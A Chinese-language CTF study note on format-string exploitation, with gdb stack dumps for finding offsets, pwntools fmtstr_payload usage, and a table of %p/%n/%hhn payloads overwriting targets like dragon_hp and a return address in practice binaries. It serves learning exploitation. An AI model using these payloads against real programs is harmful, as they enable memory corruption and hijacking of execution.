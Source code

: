 套路
fmt 修改的是偏移的 地址->指针->val , 不是直接 地址->val

1. 泄露栈修改返回值, 先泄露个栈地址

1) 可以一次泄露多个目标值
   sla('Now answer me, will you v me 50\n','aaaaaaa,%11$p,%17$p')

2) 计算偏移值

```sh
format_level1 为例，
b*0x0x8049684 \n r, 输入3
► 0x8049684 <talk+81>     call   read@plt

gdb$ ni
输入 aaaabaaacaaadaaa

   0x8049684 <talk+81>     call   read@plt
► 0x8049689 <talk+86>     add    esp, 0x10

gdb$ stack
00:0000│   esp 0xffffd320 —▸ 0xffffd33c ◂— 'aaaabaaacaaadaaa' ; 参数1: 格式化字符
01:0004│ 1     0xffffd324 —▸ 0xffffd33c ◂— 'aaaabaaacaaadaaa' ; 参数2: 地址, 从这里数
02:0008│ 2     0xffffd328 ◂— 0x10
03:000c│ 3     0xffffd32c —▸ 0x8049643 (talk+16) ◂— add ebx, 0x2975
04:0010│ 4     0xffffd330 —▸ 0xf7fa4620 (_IO_2_1_stdin_) ◂— 0xfbad208b
05:0014│ 5     0xffffd334 —▸ 0x804a231 ◂— 0x47006425 /* '%d' */
06:0018│ 6     0xffffd338 —▸ 0xffffd354 —▸ 0x804bfb8 (_GLOBAL_OFFSET_TABLE_) —▸ 0x804bec0 (_DYNAMIC) ◂— 0x1
07:001c│ 7 eax 0xffffd33c ◂— 'aaaabaaacaaadaaa'               ; 为第7个
08:0020│     0xffffd340 ◂— 'baaacaaadaaa'
gdb$ fmtarg 0xffffd33c  -> 7 ("\%6$p") 也是7
```

3

```sh
# 修改多值写法
fmtstr_payload(10, {0x404048 : 0xbadc0ffe, 0x40403c : 0xdeadbeef}, no_dollars=True)
```

测试值

| payload                                          | value                   | Desc                                                      |
| ------------------------------------------------ | ----------------------- | --------------------------------------------------------- |
| `b'%8$p'`                                        | 输入 8 偏移的地址       |                                                           |
| `b'%8$n' + p32(dragon_hp)`                       | -1                      |                                                           |
| `b'c%9$naaa' + p32(dragon_hp)`                   | 0                       | 这时栈中 第 7 个: `c%9$` 第 8 个 `naaa` 第 9 个 dragon_hp |
| `b'%128c%10$nbb' + p32(dragon_hp+3)`             | dragon_hp+3 设置为 0x80 | `bb`是填充 4 字节对齐, 用`aa`或者其他都行                 |
| `p32(dragon_hp) + b'%7\$n'`                      | 0x3                     | 正常可能是 4,前面 4 个字节                                |
| `p32(dragon_hp) + b'%15c%7\$n'`                  | 0x12 = 15+3             |                                                           |
| `b"%23p%10$hhn".ljust(12, b'a') + p32(func_ret)` |                         | func_ret 修改为 23 -> 0x17 , 用 c 和用 p 效果一样         |
